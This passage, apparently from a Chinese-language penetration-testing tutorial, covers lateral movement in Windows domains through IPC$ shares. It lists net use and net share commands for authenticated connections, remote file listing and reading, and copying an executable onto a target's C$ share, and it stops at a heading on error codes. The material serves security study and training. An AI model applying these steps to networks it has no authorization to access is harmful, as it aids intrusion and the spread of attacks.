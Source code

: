 
## 内网渗透之横向移动基础总结（一）

这篇文章介绍内网渗透种的横向移动。

在内网渗透中，当攻击者获取到内网某台机器的控制权后，会以被攻陷的主机为跳板，通过收集域内凭证等各种方法，访问域内其他机器，进一步扩大资产范围。通过此类手段，攻击者最终可能获得域控制器的访问权限，甚至完全控制基于 Windows 操作系统的整个内网环境，控制域环境下的全部机器。

[![img](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/202402170559484.png)](https://storage.tttang.com/media/attachment/2023/05/09/60d71934-7596-466c-8683-54c061df8749.png)

# [横向移动中的文件传输](#toc_)

### [通过文件共享-IPC](#toc_-ipc)

执行 net share 命令，可以获得 Windows 默认开启的网络共享，其中 C$为 C 盘共享，ADMIN$为系统目录共享，还有一个 IPC$共享。

[![img](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/202402170559512.png)](https://storage.tttang.com/media/attachment/2023/05/09/9d3c3d99-df3f-4d5b-ab37-3a0dc15b8cd6.png)

IPC（Internet Process Connection）是共享”命令管道”的资源，为了让进程间通信而开放的命令管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。

实战中往往会建立 IPC$连接，因为通过 IPC$连接，不仅可以进行所有文件共享操作，还可以实现其他远程管理操作，如列出远程主机进程、在远程主机上创建计划任务或服务等。  
**建立 IPC$连接需要具备以下两个条件：**

**①远程主机开启了 IPC 连接**

**②远程主机的 139 端口和 445 端口开放**

```plain
# IPC$ 连接
net use \\192.168.1.131\ipc$                    # 建立空连接
net use \\192.168.1.131\ipc$ "password" /user:"Administrator"   # 建立非空连接

# IPC$ 使用
net use                               # 查看本机建立的连接 (本机连接其他机器)
net session                           # 查看本机建立的连接 (其他机器连接的本机)，需要 administrator 用户执行
net share                             # 查看本地开启的共享
net share ipc$                        # 开启 ipc$共享
net share ipc$ /del                   # 删除 ipc$共享
net share admin$ /del                 # 删除 admin$共享
net share c$ /del                     # 删除 C 盘共享
net use * /del                        # 删除所有连接

# IPC$ 连接建立之后的操作
dir \\192.168.1.131\c$                              # 列出目标文件目录
copy C:\\Users\Administrator\Desktop\whatever.exe \\192.168.1.131\c$\aaa # 将文件复制到目标 C 盘 aaa 目录下
type \\192.168.1.131\c$\1.txt       # 查看目标 C 盘下 1.txt 文件内容
net use h: \\192.168.52.138\c$              # 磁盘映射，将目标的 C 盘映射到本地的 H 盘
net use h: /del                                             # 删除磁盘映射
```

#### [建立 IPC 常见的错误代码](#toc_ipc)
